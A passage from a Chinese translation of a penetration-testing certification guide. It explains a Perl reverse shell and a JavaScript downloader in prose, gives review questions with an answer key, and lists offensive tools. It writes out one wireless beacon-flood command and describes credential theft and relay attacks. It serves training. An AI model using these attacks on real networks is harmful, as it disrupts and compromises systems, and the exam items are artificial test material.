Perl 有一些模块已经处理 CIDR 表示法，我们希望输出美观，因此使用 `Data::Dumper` 和 `Net::CIDR` 来帮助我们。我们读取目标文件（`iplist.txt`），移除任何尾随空白字符，并将内容存储在一个名为 `lines` 的数组中。然后我们使用替换正则表达式将 `250` 重写为 `243`，该表达式查找以 `10.186.250` 开头的行，并将字符串的该部分替换为 `10.186.243`。然后我们必须解析 CIDR 范围以移除豁免 IP，并使用我们方便的 CIDR 模块将结果重新打印为 IP 地址范围，以创建一个逗号分隔的字符串。然后我们重新组装结果，用换行符替换逗号以生成新的目标列表。

这是我们脚本的输出：


###### Perl 反向 Shell

你可能会在考试中遇到单行命令。这些命令的部分内容可能被隐去，你可能需要提供或选择缺失的部分以使命令生效。Perl 经常被用作命令行单行命令。以下是一个用 Perl 实现的反向 Shell 单行命令示例：


**NOTE**   这需要安装 Perl 模块 `IO::Socket`。

让我们仔细看看 `socket` 命令。这定义了将要打开的套接字类型。我们包含了一个参考（如下所述），你可以在其中阅读有关所用特定选项的更多信息。在本例中，我们创建一个 TCP 套接字来流式传输数据，并将我们的套接字称为 `S`。`connect` 语句尝试创建到远程主机的连接。它使用 `inet_aton` 将 IPv4 地址转换为可传递给套接字以用于网络连接的字节格式。然后它将所有标准错误、输入和输出重定向到套接字，以便当你执行 Bash 时，它将从套接字获取输入并将所有输出发送到套接字。


**NOTE**   要了解更多关于 Perl 的套接字实现，Perl 文档深入详述了特殊常量（如 `PF_INET` 和 `SOC_STREAM`），以及 Perl 如何协商套接字连接的细节。

###### JavaScript 下载器

JavaScript 是实现文件下载器的常用方式，因为组织内部通常不会阻止 Web 访问。让我们看一个用 JavaScript 实现的下载器示例。作为客户端 JavaScript，这将嵌入在一个带有 `<html>` 和标签的普通 HTML 文档中，作为网页提供，并可能由浏览器访问。要包含 jquery，我们通过 `<script>` 标签读取它。


我们希望能够使用脚本从托管我们网页的同一位置下载内容。这有助于我们避免引起怀疑。为此，我们获取托管此网页的 URL 并剥离 URI 路径。每当有人提交表单时，就会调用 `download()` 函数。它接收基础 URL、表单中输入的值，并将它们组合成单个 URI。它使用 jQuery 的 `get` 方法请求该 URI，并将响应放入一个新元素中。该元素包含我们刚刚下载的数据对象。然后它将刚创建的链接追加到页面中，并以编程方式点击该链接以启动文件下载。该文件将具有与我们在表单中输入的相同名称。

### 章节回顾

脚本编写是渗透测试人员的一项基本技能，CompTIA PenTest+ 考试目标中专门列出了一个完整的子目标，这意味着你可能会遇到用 Bash、Python、Ruby、Perl、JavaScript 或 PowerShell 编写的脚本示例或引用。渗透测试人员不必是程序员，但他们应该对语言语法有一定的理解，以便理解脚本在做什么、修改它们，甚至可能编写得足够好以帮助完成一些渗透测试自动化任务。在本章中，我们探讨了各种脚本语言如何通过实际示例使用逻辑构造、数据结构并实现其他编程概念。

################ 问题

**1.** 使用以下代码，选择填补空白的最佳选项：


**A.** `/usr/bin/ssh and cmdexec();`

**B.** `Net::SSH2->new(); and sub cmdexec`

**C.** `new SSH2 and def(cmdexec):`

**D.** `SSH2.new() and def cmdexec($_)`

**2.** 程序使用以下哪项来处理决策逻辑？

**A.** 树

**B.** 数据结构

**C.** 逻辑构造

**D.** 库

**3.** 以下哪些是条件语句的示例？（选择所有适用项。）

**A.** `for each loop`

**B.** `if/then/else`

**C.** 用于加、减、乘、除的数学运算符

**D.** `` let name = person ? person.name : `unknown` ``

**4.** 这段 Bash 代码将输出什么？


**A.** 它将返回 `/proc/cpuinfo` 中的所有处理器并输出单词“Success”。

**B.** 它将显示 `/proc/cpuinfo` 中匹配“derp.pro”搜索的条目，显示 `/proc/cpuinfo` 中的所有处理器，并输出“Success”。

**C.** 无输出，因为前两个命令永远无法匹配第三个命令。

**D.** 它将显示 `/proc/cpuinfo` 中的处理器。

**E.** 它将输出“Success”。

**5.** XML 文件使用以下哪项来分隔记录中的字段？

**A.** 标签

**B.** 逗号

**C.** 大括号和冒号

**D.** 方括号

**6.** 这是什么语言，它有什么作用？

`Get-Process | where Name -like "*Exploit*"`

**A.** Bash，它正在创建一个名为 Exploit 的进程

**B.** Perl，它正在将 Exploit shell 重定向到一个新进程

**C.** JavaScript，它正在搜索名称中包含“Exploit”的进程

**D.** PowerShell，它正在查找名称中包含“Exploit”的所有进程

#### 答案

**1.** **B.** 这是一个 Perl 脚本，这是赋值和函数声明的正确语法。

**2.** **C.** 逻辑构造是程序根据代码中的决策采取行动所使用的机制。

**3.** **B, D.** If 语句是条件语句，三元运算符也是。

**4.** **A.** 第一个条件失败。第一个判断是逻辑或，意味着如果两个条件相反则执行。由于 `/proc/cpuinfo` 中列出了处理器，这将成功。由于第二个判断是逻辑与，如果它之前的条件成功（确实成功），它将执行。

**5.** **A.** XML 使用 `<tags>` 来分隔数据。

**6.** **D.** 这是一个 PowerShell 命令。

## 第 12 章

################ 工具清单

在本章中，您将学习

• 识别 CompTIA PenTest+ 考试中可能涉及的各种渗透测试工具的用例

由于考试范围非常广泛，不可能在本书范围内以其真正应得的细节涵盖每一种工具和技术。我们知道您需要进行独立研究，以补充本书提供的知识，为考试和您作为渗透测试人员的职业生涯做准备。在这个过程中，有太多工具需要跟踪，因此我们想利用一些空间为您提供本书中提到的工具参考列表，以帮助您备考。许多工具属于多个使用类别，因此我们将简单地按字母顺序介绍每个工具，而不是尝试将这些工具归类。

#### Aircrack-ng 套件

Aircrack-ng ([`www.aircrack-ng.org/`](https://www.aircrack-ng.org/)) 是一个无线测试套件，包含各种命令行工具。它在 第 4 章 中有更广泛的讨论。它可以帮助捕获无线流量；重放流量；破解 WPA、WPA2 PSK 和 WEP；并执行诸如取消认证攻击、创建虚假接入点和注入数据包等攻击。它包含的一些工具如下：

• `airbase-ng` 可充当临时 AP、捕获和过滤数据包。

• `aircrack-ng` 是一个针对捕获文件运行的 WEP 和 WPA 密钥破解程序。

• `airdrop-ng` 是一个用于有针对性的取消认证攻击的程序。

• `aireplay-ng` 可以重放或注入帧。它主要用于为 `aircrack-ng` 破解生成流量，但也可以执行 chopchop、取消认证和碎片攻击。

• `airgraph-ng` 将来自 `airodump-ng` 的 .csv 文件处理成无线网络的图形可视化。

• `airmon-ng` 将无线网卡置于监控模式，这允许设备在不首先连接到无线网络的情况下捕获无线流量。这通常用于无线侦察，并作为其他捕获流量的 aircrack-ng 套件工具的先决条件步骤。

• `airodump-ng` 用于捕获无线流量，在收集用于 `aircrack-ng` 的 WEP 初始化向量 (IV) 数据时非常有用。这可以结合 GPS 来在地理上绘制无线信号图。

• `besside-ng` 可用于自动破解 WEP 密钥并记录 WPA 握手以供破解。

• `Dcrack` 支持跨多台服务器进行 WPA/2 PSK 分布式破解。

• `Mdk4`（参见 mdk4 条目）。

• `packetforge-ng` 如果您拥有从碎片攻击或 chopchop 攻击获得的伪随机生成算法 (PRGA) 文件，则可以创建用于在无线网络上注入和重放的加密数据包。

#### Android SDK 工具

Android SDK ([`developer.android.com/studio/intro`](https://developer.android.com/studio/intro)) 工具是官方的 Android API 工具，包括用于开发 Android 应用程序的集成开发环境 (IDE)。它们对于移动应用程序和设备测试非常有用，包括源代码分析。

#### APK Studio


#### APK Studio

APK Studio ([`github.com/vaibhavpandeyvpz/apkstudio`](https://github.com/vaibhavpandeyvpz/apkstudio)) 是一款专为 Android 应用逆向工程设计的 IDE。它允许你对 Android 设备的 APK 进行反编译、重编译、签名和安装；编辑和查看代码；并包含用于二进制文件的十六进制编辑器。如果你有一个已编译的 Android 应用需要逆向，或者需要绕过证书绑定以拦截应用与远程服务之间的流量，这将非常有用。更多功能请参阅 第 7 章。

##### ApkX

ApkX ([`github.com/b-mueller/apkx`](https://github.com/b-mueller/apkx)) 是一个 Python 封装工具，它封装了多个工具，用于从 APK 文件中提取 Java 源代码。这实现了提取、反编译和转换过程的自动化。以下是使用示例：


当你需要检查 APK 中的实际 Java 代码以进行代码篡改和逆向工程时，此工具非常有用。有关使用的更多信息，请参阅 OWASP 移动测试指南中的“反编译 Java 代码”部分：[`github.com/OWASP/owasp-mstg/blob/e6e3f113c44e76fc1481fff063fe44800d5bfcd5/Document/0x05c-Reverse-Engineering-and-Tampering.md#decompiling-java-code`](https://github.com/OWASP/owasp-mstg/blob/e6e3f113c44e76fc1481fff063fe44800d5bfcd5/Document/0x05c-Reverse-Engineering-and-Tampering.md#decompiling-java-code)

#### Bash

Bash ([`www.gnu.org/software/bash/manual/bash.html`](https://www.gnu.org/software/bash/manual/bash.html)) 是一种 \*NIX 操作系统 Shell：许多 \*NIX 系统的命令行界面和命令语言解释器。用 Bash 编写的脚本可用于渗透测试和系统管理自动化，包括反向 Shell 和绑定 Shell、Shell 逃逸以及提权等。Bash 的更多详细内容请参阅 第 11 章。

###### BeEF (Browser Exploitation Framework)

BeEF ([`beefproject.com/`](https://beefproject.com/)) 是一款专注于针对 Web 浏览器的客户端攻击（如 XSS 和会话劫持）的利用工具。你可以通过生成 JavaScript Hook 并将其注入 Web 内容，利用 BeEF 发起基于 Web 的社会工程学攻击，这些 Hook 允许你通过 BeEF 工具提供的控制台与目标浏览器进行交互。这可用于在受控目标上建立立足点、窃取凭证或认证材料，并在浏览器上下文中执行其他攻击。

#### BloodHound

BloodHound ([`bloodhound.readthedocs.io/en/latest/`](https://bloodhound.readthedocs.io/en/latest/)) 探索 Active Directory 或 Azure 中对象之间的关系，并以图形方式显示它们。这对于识别攻击路径上的提权机会非常有用，但在环境中运行该工具通常非常嘈杂且可能造成破坏。在任何评估期间都应仔细界定其范围并审慎使用，或者当隐蔽性是主要操作顾虑时，可能应避免使用。BloodHound 的使用示例请参阅 第 9 章。

#### Brakeman

如果你需要对 Ruby on Rails 应用程序执行静态应用安全测试 (SAST)，Brakeman ([`brakemanscanner.org/`](https://brakemanscanner.org/)) 将获取 Rails 源代码，对其进行扫描，并生成一份潜在安全问题的报告。与所有自动化代码分析工具一样，它可能会产生误报，因此其结果应经过人工审查。它也会遗漏因与其他组件交互而在运行时引入的问题，因此应结合其他工具和 DAST 方法论来使用，以便为渗透测试全面评估应用程序。它通过带短划线的选项（-A、-n 等）从命令行运行以定义其行为，可以针对特定的应用程序和路径，也可以针对当前目录中的应用程序运行。

#### Burp Suite

Burp Suite ([`portswigger.net/burp`](https://portswigger.net/burp)) 是一款以图形应用程序形式提供的 Web 安全测试工具包。它提供专业版和免费的社区版。Burp Suite 允许你代理和拦截、篡改、重放和注入 Web 流量。它通过社区商店提供各种插件（如 DirBuster），可自动执行暴力破解、SQL 注入和针对会话管理的攻击等。它甚至包含一个解码器，使转换和分析 Web 数据变得更加容易。Burp Suite 将显示各种 Web 流量的请求和响应，并内置了用于测试的浏览器。它可以被动或主动地爬取网站，并在过程中使用内置的漏洞扫描器突出显示潜在的安全问题。Burp Suite 的使用示例请参阅 第 5 章，其他用例在 PortSwigger 网站上有详细讨论：[`portswigger.net/burp/documentation/desktop/penetration-testing`](https://portswigger.net/burp/documentation/desktop/penetration-testing)

#### Cain

Cain ([`web.archive.org/web/20190603235413/http://www.oxid.it/cain.html`](https://web.archive.org/web/20190603235413/http://www.oxid.it/cain.html)) 是 Cain & Abel 工具的破解组件。Cain 最初是作为一个 GUI 应用程序为旧版 Windows（Windows 2000 及更早版本）创建的。它可以使用暴力破解和字典攻击来破解密码，并支持彩虹表。密码目标包括 WEP、NTLM 和 LM 哈希、NTLMv2 哈希、MD5 哈希、SHA-1 和 SHA-2 哈希、Cisco IOS 和 PIX 哈希，以及 RADIUS 和 IKE PSK 哈希。该工具较老且知名度高，因此被大多数主机安全产品识别为恶意软件。它主要在其他破解工具不支持该哈希类型，或彩虹表比使用字典或基于规则的暴力破解进行 GPU 攻击更快时有用。另一个实现彩虹表的工具是 RainbowCrack。

#### 来电欺骗工具

许多工具可协助来电显示欺骗，Social-Engineer 博客有一份很棒的列表 ([`www.social-engineer.org/framework/se-tools/phone/caller-id-spoofing/`](https://www.social-engineer.org/framework/se-tools/phone/caller-id-spoofing/))。通常，其目的是隐藏你拨打电话的号码，或使其在基于电话的社会工程学攻击期间显示为另一个号码。许多商务电话显示来电显示信息，如果来源号码对接听者来说看起来很熟悉，就会减少怀疑。当地和地区法律可能会影响来电显示欺骗在法律上允许的范围，因此请将这些限制作为范围界定练习的一部分予以注意。

################ Censys

Censys ([`censys.io/`](https://censys.io/) 和 [`search.censys.io/`](https://search.censys.io/)) 扫描互联网上公开暴露的资产，并将详细信息存储在可搜索的数据库中。该可搜索数据库对于利用收集到的关于主机上监听的端口和服务以及其证书中暴露的其他数据，对目标执行被动侦察非常有用。

#### CeWL

自定义词表生成器 (CeWL) ([`github.com/digininja/CeWL`](https://github.com/digininja/CeWL)) 会爬取目标网站，并利用爬取过程中识别出的有趣术语（包括电子邮件地址）组装词表。这些词表随后可用于进一步定位、暴力破解可能的 URL、主机名，甚至作为密码破解字典。CeWL 使用 Ruby 编写，旨在使用标志（例如 `-w0`）从命令行运行以控制其行为。选项包括控制爬取深度、输出文件、要发送的用户代理、收集单词的长度，以及是否包含电子邮件地址。

#### Cloud Custodian


#### Cloud Custodian

[Cloud Custodian](https://cloudcustodian.io/docs/index.html) 运行一系列脚本，旨在审计云环境的安全性。它使用带有策略的 YAML 文件来定义检查内容，并根据运行时使用的策略，生成关于权限和其他云配置中可能存在的问题的报告。它通过命令行运行，使用模式来控制其行为。例如，它可以扫描、仅验证 YAML 而不执行任何操作，或尝试修复目标。对于具有文档完善的假设的云环境，这可以快速识别易于利用的漏洞，或跨许多云资产提出建议。Cloud Custodian 的示例记录在 第 6 章 中。

##### CloudBrute

[CloudBrute](https://github.com/0xsha/CloudBrute) 是一款用于云环境的枚举工具。它支持多个云提供商，并可以根据域名信息或运行时从未认证视角提供的其他目标键，识别存储桶、应用程序和存储。它还可以根据发现的内容，帮助枚举暴露的端口和 HTTP/S 服务。它设计为从命令行运行，使用选项标志来修改其行为。其用法示例可在 第 6 章 中找到。

##### Coagula

[Coagula](https://www.abc.se/~re/Coagula/Coagula.html) 接收图像并将其转换为声音。这可用作隐写术的一部分，以在声音文件中隐藏数据。这可能是一种绕过数据丢失防护工具或其他基于恶意内容触发的安全控制的数据渗出机制。可以使用 Audacity、Spek 或 Sonic Visualiser 等工具从声音文件中重组文件。

##### Covenant

[Covenant](https://github.com/cobbr/Covenant) 是一个 .NET C2 框架，旨在允许渗透测试人员在攻击行动期间进行协作。该工具使用 Web 界面来编排组件，包括监听器配置、载荷生成，以及对称为 Grunts 的受损主机上的代理进行管理。

##### CrackMapExec

[CrackMapExec (CME)](https://github.com/byt3bl33d3r/CrackMapExec) 是一款后利用工具，旨在隐蔽地自动化 Active Directory 环境的安全测试。它使用原生工具来“就地取材”，作为其保持隐蔽和规避原本会阻止攻击工具的安全控制的战术的一部分。它还使用 Impacket 和 PowerSploit 来评估权限问题并执行攻击操作。该工具值得进一步独立探索，尽管所提供 URL 中的文档将帮助你入门。

##### DirBuster

[DirBuster](https://wiki.owasp.org/index.php/Category:OWASP_DirBuster_Project) 是一款 Java 应用程序，它使用字典和词表来尝试猜测网站上的目录和文件名。对于网站索引中未显示或未从你爬取的网站链接的网站或文件，这些文件无法被自动发现，必须通过暴力破解。DirBuster 现已是一个不活跃的项目，已集成到 OWASP ZAP 中，但你可以在 OWASP 阅读更多关于其理想用例的信息：[`owasp.org/www-community/attacks/Brute_force_attack`](https://owasp.org/www-community/attacks/Brute_force_attack)

##### Drozer

[Drozer](https://github.com/FSecureLABS/drozer) (和 [`labs.f-secure.com/tools/drozer/`](https://labs.f-secure.com/tools/drozer/)) 是一个 Android 安全评估框架，它作为一个第三方应用程序，与其他应用程序和底层操作系统的 IPC 端点进行交互。这允许你通过与目标交互（通过提供的模块）来搜索安全漏洞。额外功能在 第 7 章 中探讨。

##### EAPHammer

[EAPHammer](https://github.com/s0lst1c3/eaphammer) 是一款渗透测试工具，旨在通过针对 WPA 和 WPA2 网络以及使用 RADIUS 的网络的邪恶双生攻击，获取无线网络的访问权限。该工具可安装在 Kali Linux 中，当你需要通过恶意 AP 窃取 RADIUS 凭据或通过恶意门户窃取 AD 凭据时非常有用。它还支持 Karma 攻击。

##### Empire

[Empire](https://www.powershellempire.com/) (和 [`github.com/BC-SECURITY/Empire`](https://github.com/BC-SECURITY/Empire)) 是一个 PowerShell 利用框架，其原始作者不再提供支持。然而，由于许多工具仍然有效，它们有时会被渗透测试博客引用，且在实践中仍在使用。这些工具已变得众所周知，因此除非应用额外的隐藏方法（如使用 PowerPick 或混淆技术），否则更有可能在高级环境中被检测到。该框架包含许多 PowerShell 脚本和模块，旨在收集凭据（运行 Mimikatz）、发现与侦察、权限提升、横向移动和持久化等。一些 Empire 组件的示例在 第 9 章 中讨论。

##### Ettercap

[Ettercap](https://www.ettercap-project.org/) 是一款用于网络流量的中间人工具。它可以执行 ARP 欺骗攻击、嗅探实时连接上的网络流量，并应用过滤器实时修改该流量。它是一个支持在 Linux、BSD 和某些版本的 macOS 上运行的命令行工具。如果你有网络访问权限，但需要拦截或修改同一子网上其他网络端点之间的流量以进一步获取访问权限，Ettercap 非常有用。示例可能包括你需要尝试窃取凭据或劫持 Web 流量的情况。

##### Exploit Database

[Exploit Database](https://www.exploit-db.com/) 是一个由社区贡献的已知漏洞利用数据库，你可以搜索它以寻找用于渗透测试的概念验证和漏洞利用示例。漏洞利用代码可能需要额外修改，才能在特定渗透测试的上下文中发挥作用。

##### Fern

[Fern](http://www.fern-pro.com/) (和 [`github.com/savio-code/fern-wifi-cracker`](https://github.com/savio-code/fern-wifi-cracker)) 是一款用于 Wi-Fi 安全审计和破解的 Python 工具。它可以恢复 WEP、WPA 和 WPS 密钥，以及执行多种类型的 Wi-Fi 攻击（Reaver、chopchop、碎片攻击等）。它有免费版本 (GitHub) 和付费专业版本。它需要 aircrack-ng 套件、Scapy 和 Reaver。

##### FOCA

[FOCA (Fingerprinting Organizations with Collected Archives)](https://github.com/ElevenPaths/FOCA) 是一款从文档中挖掘元数据和其他隐藏信息的工具。这些信息在侦察和发现阶段可能很有用，为社会工程学攻击做准备。例如，这有助于提取作者信息、电子邮件地址，甚至账户信息，用于生成借口和创建目标列表。

##### Frida

[Frida](https://frida.re/) 是一个移动测试工具包，允许渗透测试人员将脚本注入黑盒进程，并在移动设备安全测试期间深入了解 API、私有代码和运行中函数的操作。Frida 及其用例在 第 7 章 中有更深入的讨论。

##### GDB


###### GNU 调试器

GNU 调试器 ([`www.gnu.org/software/gdb/`](https://www.gnu.org/software/gdb/)) 是一款免费的调试器。调试器允许你在应用程序运行时与其交互，以便通过在特定断点暂停执行并分析故障或执行流变化期间发生的情况来分析其行为。调试器不会将代码从编译格式反汇编回源代码，但它们可以根据运行时注入的执行变化，让你深入了解代码是如何运行的。这些对于漏洞研究、逆向工程和漏洞利用开发非常有用。例如，如果你试图通过在调试器中手动更改从身份验证函数发送到程序其余部分的值来绕过应用程序中的身份验证。

##### Gobuster

Gobuster ([`github.com/OJ/gobuster`](https://github.com/OJ/gobuster)) 可用于枚举 Amazon S3 存储桶；Web 服务器的虚拟主机名；以及使用模糊测试、过滤器、不同协议和 HTTP 方法的 DNS 条目。该工具设计为在命令行运行，通过标志在运行时修改其行为。该工具包含四种模式：`dir`（用于目录爆破）、`dns`（用于 DNS 主机名枚举）、`s3`（用于 AWS 存储桶）和 `vhost`（用于 Web 服务器）。运行时，你需要指定字典文件和输出文件位置，以及目标所需的必要信息。

##### Hashcat

Hashcat ([`hashcat.net/hashcat/`](https://hashcat.net/hashcat/)) 是一个基于 GPU 的破解引擎，旨在使用规则和过滤器进行暴力破解和字典攻击。它旨在针对各种类型的密码哈希，并被认为是密码破解最快的方法。当你拥有无法利用的哈希，或者需要根据一组哈希审计密码强度时，请使用它。

##### Hping

Hping ([`www.hping.org/`](http://www.hping.org/)) 是一个用于生成 TCP/IP 数据包的命令行工具。虽然其功能已在 Nmap 中实现，但 `hping3` 可以用 Tcl 脚本语言编写脚本，并能将数据包渲染为基于字符串的、人类可读的描述，以便于编写脚本执行底层数据包操作和分析。使用 Hping，你还可以欺骗源 IP 地址并生成大量流量，以探索各种 DDoS 技术，这是渗透测试中最常见的用例。

##### Hydra

Hydra ([`github.com/vanhauser-thc/thc-hydra`](https://github.com/vanhauser-thc/thc-hydra)) 是一款针对活服务（包括 HTTP、Oracle、Cisco、POP3、VNC 等）进行密码喷射和暴力破解的工具。其高度并行化的跨多协议攻击活服务的方法（与离线密码破解相反）使其非常适合渗透测试人员评估密码安全性，以及在紫队演练中进行有效的攻击检测和缓解。它通常作为命令行工具使用，可在各种操作系统中运行，使用 `-flags` 来修改其行为。示例用法见 第 5 章。

##### IDA

IDA ([`hex-rays.com/ida-pro/`](https://hex-rays.com/ida-pro/)) 有多个付费版本和一个免费版本（IDA Free）。不同版本提供的功能各异，但它是一款强大的代码反汇编和调试工具。它分析编译后的应用程序，检查 CPU 如何处理信息，并尝试根据该分析生成汇编代码，还支持各种类型模糊测试攻击的远程调试。它拥有各种插件（如 HexRays），允许你从编译后的二进制文件中提取 C 代码以进行静态代码分析。它适用于代码分析、逆向工程、漏洞研究和漏洞利用开发。

##### Immunity Debugger

Immunity Debugger ([`www.immunityinc.com/products/debugger/`](https://www.immunityinc.com/products/debugger/)) 适用于漏洞利用开发、恶意软件分析和逆向工程。它允许你以图形方式渲染函数和程序流程，便于堆分析，并实现了用于脚本编写的 Python API。例如，Mona Python 插件将允许你轻松计算缓冲区溢出的偏移量，识别 ROP 链，并探索其他对利用有用的 gadget（代码片段）。

##### Impacket

Impacket ([`github.com/SecureAuthCorp/impacket`](https://github.com/SecureAuthCorp/impacket)) 是一个用于网络协议操作的 Python 工具套件。在渗透测试期间，Impacket 有许多合法用途，包括从 Linux 攻击平台与 Windows 主机交互。一个例子可能是使用管理员凭据从 Linux 机器对域控制器执行 DCsync。用法示例见 第 9 章。

##### John the Ripper

John the Ripper (JtR) ([`www.openwall.com/john/`](https://www.openwall.com/john/)) 是一款离线密码破解工具。对于基于 CPU 的破解，JtR 是密码恢复最快的工具之一。因此，如果无法进行 GPU 破解，你会使用 JtR。然而，JtR 还实现了不同于其他破解工具的规则集，这些规则集可能在其他破解工具失败的情况下恢复密码，因此它是大型密码列表中其他破解工具的良好补充。

##### Kismet

Kismet ([`www.kismetwireless.net/`](https://www.kismetwireless.net/)) 是一款无线安全评估工具，可检测设备、嗅探无线流量并协助战争驾驶。它支持蓝牙以及传统无线网络。它最常用于无线侦察，并支持基于补充 GPS 数据的无线数据图形化映射。更多关于无线攻击的详细信息请参阅 第 4 章。

##### Maltego

Maltego ([`www.maltego.com/`](https://www.maltego.com/)) 利用变换根据搜索种子（如电子邮件地址或域名）自动从开源和付费数据源检索侦察数据。这是一款强大的侦察工具，可以快速识别目标之间的关系，例如电子邮件、Web 服务器或其他基础设施（如 IP 范围），这些在构建和确认目标列表、构建借口以及识别其他可能有趣的目标研究领域方面非常有用。

##### mdk4

mdk4 ([`github.com/aircrack-ng/mdk4`](https://github.com/aircrack-ng/mdk4) 和 [`en.kali.tools/?p=864`](https://en.kali.tools/?p=864)) 是一款无线测试工具，用于在多个操作系统上注入帧。这允许你执行多种攻击类型，包括信标泛洪、拒绝服务和解除认证攻击、SSID 探测和暴力破解、数据包模糊测试等。在无线接口 `wlan0` 上使用不可打印字符和长 SSID (`-a`) 以及根据嵌入的 OUI 数据库使用有效 MAC 地址 (`-m`) 以每秒 200 个数据包的速率 (`-s`) 执行信标泛洪攻击的示例可能如下所示：

```
$ sudo mdk4 wlan0 b -a -m -s 200
```

##### Medusa

Medusa ([`github.com/jmk-foofus/medusa`](https://github.com/jmk-foofus/medusa) 和 [`foofus.net/goons/jmk/medusa/medusa.html`](http://foofus.net/goons/jmk/medusa/medusa.html)) 是一款类似于 Hydra 的工具，它针对活服务执行密码暴力破解攻击。它支持多种协议，并可以从字典文件并行发送请求。在渗透测试期间，你会在使用 Hydra 的相同情况下使用 Medusa，选择取决于偏好、你在环境中的性能表现和协议支持。

###### Metasploit


###### Metasploit

Metasploit ([`www.metasploit.com/`](https://www.metasploit.com/)) 是一个渗透测试框架，包含许多社区贡献的攻击模块。它适用于渗透测试的大多数阶段，包括侦察、漏洞识别、利用以及命令与控制。本书全文都在讨论 Metasploit，但主要是在 第 9 章 中后渗透的背景下进行讨论。

##### Mimikatz

Mimikatz ([`github.com/gentilkiwi/mimikatz`](https://github.com/gentilkiwi/mimikatz)) 是一款用于从 Windows 系统提取认证信息的工具。这包括 Kerberos 票据、明文密码、密码哈希、PIN 码等。它可以帮助渗透测试人员执行传递哈希和传递票据攻击，以及通过构建黄金票据进行 Kerberoasting 攻击。在渗透测试期间，你会在后渗透阶段使用 Mimikatz，例如当你已访问某个系统并想要收集额外凭据以进行横向移动或权限提升时。这在 第 9 章 中有进一步讨论。

##### mitm6

mitm6 ([`github.com/dirkjanm/mitm6`](https://github.com/dirkjanm/mitm6)) 拦截选定目标的 DNS 和 DHCP 查询，并作为一个流氓 DNS/DHCP 服务器运行。这随后可用于将受害者流量重定向到其他恶意资源，或在与 Impacket 中的 `ntlmrelayx` 等工具结合使用时执行中继攻击。更多信息（包括使用示例和输出）请参阅 Fox-IT 博客文章“mitm6 – compromising IPv4 networks via IPv6”，地址为：[`blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/`](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)

##### MobSF

移动安全框架 即 MobSF ([`github.com/MobSF/Mobile-Security-Framework-MobSF`](https://github.com/MobSF/Mobile-Security-Framework-MobSF)) 是一个移动渗透测试框架，可针对 Android、iOS 和 Windows 设备。它提供静态和动态代码分析工具，并在 第 7 章 中进一步讨论。

##### Ncat

Ncat ([`nmap.org/ncat/`](https://nmap.org/ncat/)) 是 Nmap 的 Netcat (`nc`) 工具实现。它允许你使用命令行通过网络读取和写入数据。它可用于将 TCP 和 UDP 端口重定向到其他站点，并支持带有 SOCKS 的 SSL 和代理实现。Ncat 集成在 Nmap 中，随 Nmap 一起下载。包含示例的详细使用指南可在 Nmap 网站上找到：[`nmap.org/ncat/guide/index.html`](https://nmap.org/ncat/guide/index.html)。

##### Nessus

Nessus ([`www.tenable.com/products/nessus`](https://www.tenable.com/products/nessus)) 是一款漏洞扫描器。它可以使用端口扫描执行网络发现，并从已认证或未认证的上下文中枚举服务。从未认证的上下文来看，它尝试连接到暴露的服务，并利用横幅和安装信息或协议响应中的差异，尝试识别监听服务及其版本。然后，它可以将该信息与大量已知漏洞的内部数据库进行比较，以突出显示已识别服务上潜在或确认存在的漏洞。这对于识别潜在的利用路径非常有用，并且在渗透测试期间不需要隐蔽时，可快速执行大规模发现。

##### Netcat

Netcat (`nc`) ([`linux.die.net/man/1/nc`](https://linux.die.net/man/1/nc)) 是一款随许多 Linux 发行版分发的工具，允许你发送和接收 TCP 和 UDP 流量、监听任意 TCP 和 UDP 端口，并使用 TCP 或 UDP 执行许多其他任务。例如，它可以使用 Bash 进行高度脚本化，并可在渗透测试期间用于向目标机器传输文件、实现绑定或反向 Shell，或使用原始连接直接测试服务。使用示例包含在 第 11 章 中。

##### Nikto

Nikto ([`cirt.net/Nikto2andhttps://github.com/sullo/nikto/wiki`](https://cirt.net/Nikto2andhttps://github.com/sullo/nikto/wiki)) 是一款 Web 服务器漏洞扫描器。它针对你提供的目标 Web URL 测试已知漏洞。第 11 章 中给出了使用 Nikto 的示例，但你可以用它来查找与过时插件版本或其他 Web 软件相关的已知漏洞，适用于不需要隐蔽的情况。

##### Nmap

Nmap ([`nmap.org/`](https://nmap.org/)) 是一款用于网络发现和安全测试的免费渗透测试工具。它通常从命令行运行，但也存在 GUI 版本 (Zenmap)。Nmap 拥有强大的脚本引擎和大量脚本集合，可执行各种活动，包括从暴力破解和枚举到数据库哈希转储和表单模糊测试的所有内容。本书全文均引用了 Nmap。

##### nslookup

nslookup ([`docs.microsoft.com/en-us/windows-server/administration/windows-commands/nslookup`](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/nslookup) 和 [`linux.die.net/man/1/nslookup`](https://linux.die.net/man/1/nslookup)) 是一款包含在多个操作系统中的实用程序，允许你进行 DNS 查询，以便在网络上从 IP 地址查找主机名，以及从主机名查找 IP 地址。这是它最原始的用法，然而，各种命令行和使用模式使其在侦察和 DNS 故障排除方面非常有用。请查看 第 2 章，了解涉及信息收集和侦察的更多用例。

##### Objection

Objection ([`github.com/sensepost/objection`](https://github.com/sensepost/objection) 和 [`github.com/sensepost/objection/wiki/Using-objection`](https://github.com/sensepost/objection/wiki/Using-objection)) 是一个移动利用工具包，可在无需越狱设备的情况下协助运行时安全测试。通过使用修补过的应用程序来挂钩 Objection 调用，你可以远程与设备交互以探索安全问题。第 7 章 中通过使用示例更详细地讨论了 Objection。

##### OllyDbg

OllyDbg ([`www.ollydbg.de/`](https://www.ollydbg.de/)) 是一款免费的基于 Windows 的调试器。它通过跟踪寄存器并识别字符串、常量、API 调用、过程等，有助于执行代码分析。由于调试领域的许多工具都需要付费，因此这通常是预算或资源有限的渗透测试人员的替代选择。调试对于漏洞识别、漏洞利用开发和动态应用程序分析非常有帮助。将应用程序加载到调试器中，你可以通过使用执行断点在运行时操作各种函数的输入和输出，以识别应用程序逻辑中的缺陷或其他错误。

##### OpenVAS

开放漏洞评估扫描器 即 OpenVAS ([`www.openvas.org/`](https://www.openvas.org/)) 是一款免费漏洞扫描器，也是 Nessus 的开源替代品。它使用的漏洞和测试库是社区贡献的，其发现结果可能与 Nessus 等其他漏洞扫描器不同，但它为快速漏洞识别和攻击面枚举提供了免费且开源的替代方案。

###### OpenStego


###### OpenStego

